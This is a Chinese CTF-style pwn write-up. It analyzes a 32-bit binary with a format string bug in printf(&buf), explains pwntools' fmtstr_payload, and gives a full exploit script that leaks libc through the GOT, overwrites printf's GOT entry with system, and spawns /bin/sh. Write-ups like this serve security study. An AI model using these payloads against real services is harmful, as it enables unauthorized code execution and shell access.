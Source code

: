 ```yaml
---
layout:     post
title:      "32位fmtstr漏洞利用"
subtitle:   "记一32位格式化字符串漏洞利用"
date:       2018-09-01 12:00:00
author:     "b0ldfrev"
catalog: true
tags:
    - Pwn
    - 笔记
 
---
```



## 0x00 代码分析

1，检查保护

```python
[*] '/home/b0ldfrev/Pwn/pwn4'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
```
 只开了NX

2，使用IDA分析程序流程

main 函数分析

```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
  char buf; // [esp+0h] [ebp-88h]

  puts("please login first");
  fflush(stdout);
  login();
  if ( login_flag )
  {
    printf("welcome~%s,the present for first meet~%p\n", &name, &buf);
    puts("do you have something say to me~");
    fflush(stdout);
    if ( read(0, &buf, 0x80u) < 0 )
    {
      puts("read error");
      exit(0);
    }
    printf(&buf);
  }
  else
  {
    puts("please login first!");
    login();
  }
  return 0;
}
```

login 函数分析

```c
int login()
{
  puts("your name:");
  fflush(stdout);
  if ( read(0, &name, 0x20u) < 0 )
  {
    puts("read error");
    exit(0);
  }
  login_flag = 1;
  return puts("logined!");
}
```
程序定义了一个buf[88]的数组，首先让输入你的名字，然后再打印出刚才输入的名字和buf的栈地址，然后再让你输入一个字符串，打印出这个字符串。


## 0x01 漏洞分析与利用

首先分析输入name的地方，name的地址在bss段，不在栈中无法溢出。输入buf的地方，buf虽然在栈中，大小为`ebp-88h`，但是输入的地方`read(0, &buf, 0x80u)`，长度不能够溢出。明显`printf(&buf);`存在格式化字符串漏洞。


很明显的格式化字符串漏洞了，执行一个任意地址泄露和任意地址写（泄露printf函数的plt.got表内地址，往main函数ret地址写一个main函数地址，回去二次执行程序流程）。因为前面泄露了地址，程序提供了libc库，算出system函数实际地址，第二次就往printf函数的plt.got表写入system函数地址，同时改写返回地址再次执行程序流程。最后printf（&system("/bin/sh")）拿到shell。

## 0X02 fmtstr_payload介绍

这里介绍一个pwntools自带的格式化字符串任意地址写的函数：**fmtstr_payload**

`fmtstr_payload（offset，writes，numbwritten = 0，write_size ='byte' ）`

使用给定参数创建有效负载。它可以为32位或64位架构生成有效负载。addr的大小取自`context.bits`

参数：

* offset（int） - 您控制的第一个格式化程序的偏移量
* 字典（dict） - 被写入地址对应->写入的数据，可多个对应{addr: value, addr2: value2}
* numbwritten（int） - printf函数已写入的字节数
* write_size（str） - 必须是byte，short或int。告诉您是否要逐字节写入，短按short或int（hhn，hn或n）

例子：

```nasm
>>> context.clear(arch = 'amd64')
>>> print repr(fmtstr_payload(1, {0x0: 0x1337babe}, write_size='int'))
'\x00\x00\x00\x00\x00\x00\x00\x00\x04\x00\x00\x00\x00\x00\x00\x00%322419374c%1$n%3972547906c%2$n'
>>> print repr(fmtstr_payload(1, {0x0: 0x1337babe}, write_size='short'))
'\x00\x00\x00\x00\x00\x00\x00\x00\x02\x00\x00\x00\x00\x00\x00\x00\x04\x00\x00\x00\x00\x00\x00\x00\x06\x00\x00\x00\x00\x00\x00\x00%47774c%1$hn%22649c%2$hn%60617c%3$hn%4$hn'
>>> print repr(fmtstr_payload(1, {0x0: 0x1337babe}, write_size='byte'))
'\x00\x00\x00\x00\x00\x00\x00\x00\x01\x00\x00\x00\x00\x00\x00\x00\x02\x00\x00\x00\x00\x00\x00\x00\x03\x00\x00\x00\x00\x00\x00\x00\x04\x00\x00\x00\x00\x00\x00\x00\x05\x00\x00\x00\x00\x00\x00\x00\x06\x00\x00\x00\x00\x00\x00\x00\x07\x00\x00\x00\x00\x00\x00\x00%126c%1$hhn%252c%2$hhn%125c%3$hhn%220c%4$hhn%237c%5$hhn%6$hhn%7$hhn%8$hhn'
>>> context.clear(arch = 'i386')
>>> print repr(fmtstr_payload(1, {0x0: 0x1337babe}, write_size='int'))
'\x00\x00\x00\x00%322419386c%1$n'
>>> print repr(fmtstr_payload(1, {0x0: 0x1337babe}, write_size='short'))
'\x00\x00\x00\x00\x02\x00\x00\x00%47798c%1$hn%22649c%2$hn'
>>> print repr(fmtstr_payload(1, {0x0: 0x1337babe}, write_size='byte'))
'\x00\x00\x00\x00\x01\x00\x00\x00\x02\x00\x00\x00\x03\x00\x00\x00%174c%1$hhn%252c%2$hhn%125c%3$hhn%220c%4$hhn'
```

## 0X03 完整利用过程

* 构造`p32(put_got)+"%4$s"`，同时这里还要往返回地址写一个main函数地址。找到`&buf+9c`偏移为ret地址，继续构造`fmtstr_payload(6,{ret:main},12)`，参数6为4偏移加上泄露字符串的长度2DWORD,参数12为%s泄露出的地址和额外数据长度+4，因为%s以`'\0'`结尾,不同libc库环境可能这个参数数值不同，可自行根据判断调整。
* 成功泄露地址后算出system函数地址，第二次执行流程利用，同理`fmtstr_payload(4,{printf_got:system,ret+4:main},0,'short')+";/bin/sh;#"`往ret+4写是因为，第二次执行main函数后ret地址往后挪了一位。然后往printf函数的plt.got表写入system函数地址，同时改写返回地址再次执行程序流程。不同的是这里的payload最后要写入个`;/bin/sh;#`因为第三次执行流程的`printf(&buf)`buf地址为第二次的buf地址偏一点点，用了参数截断，执行/bin/sh。




## 0x04 脚本

```python
from pwn import *
context.log_level="debug"
context.arch="i386"
p = process("./pwn4")

p.recvuntil("name:")
p.sendline("A"*0x10)
p.recvuntil("meet~")

stack = int(p.recvuntil("\n",drop=True),16)

print hex(stack)
ret = stack + 0x9c
print hex(ret)
put_got = 0x804A018
pay = p32(put_got)+"%4$s"

pay2 = fmtstr_payload(6,{ret:0x804856E},12)
pay = pay + pay2
p.recvuntil("g say to me~")

p.sendline(pay)
print p.recvuntil("\x18\xa0\x04\x08")
puts = u32(p.recv(4))

libc = ELF("/lib/i386-linux-gnu/libc-2.19.so")

system = puts - libc.symbols['puts'] + libc.symbols['system']

sleep(2)
p.send("A"*0x20)

print hex(system)

pay = fmtstr_payload(4,{0x804a010:system,ret+4:0x0804856e},0,'short')+";/bin/sh;#"

p.send(pay)

sleep(2)
p.recvuntil("#")
sleep(1)
p.sendline("BBBBBB")

p.interactive()
```

## 0x05 总结

其实这道题有个很简单的解法，直接往返回地址写rop，泄露地址，执行system，全部rop就搞定了

大致就这样 :

`exp1=fmtstr_payload(4,{ret:put_plt,ret+4:main,ret+8:put_got},0,'short')`

`exp2=fmtstr_payload(4,{ret:system_addr,ret+4:任意,ret+8:name_addr('/bin/sh')},0,'short')`

>[文件下载](https://github.com/yxshyj/project/tree/master/pwn/fmtstr%E5%88%A9%E7%94%A8%E4%B9%8Bpwn4)

